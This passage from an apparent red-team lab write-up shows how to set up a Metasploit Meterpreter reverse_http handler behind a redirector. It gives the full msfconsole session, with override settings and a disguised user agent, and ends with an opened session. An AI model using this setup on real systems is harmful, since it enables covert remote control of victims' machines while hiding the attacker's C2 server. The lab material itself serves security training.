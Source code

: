 Next, we need to set up OverrideLHOST - This value will be your redirector's IP Address or Domain Name. After that, we need to set the OverrideLPORT; this will be the port that the HTTP _or_ HTTPS is running on, on your Redirector. Lastly, we must set the OverrideRequestHost to true. This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and not your C2 server. Now that you understand what must be configured, let's dive into it:

MetasploitRedirector

```shell-session
root@kali$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
OverrideLHOST => 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:8080
[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500

```

After this has all been set up, running your Meterpreter Reverse Shell should now proxy all communications through your Redirector! For awareness, the diagram below is how our Redirector is set up in our lab; as a reminder, in engagements, you will want to use **multiple** hosts and DNS records instead of IP Addresses. 

 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/267a18249f3b9f9ad07e0b9e429bd942.png)
 
![](../images/Pasted%20image%2020250512131444.png)


# Wrapping Up
---
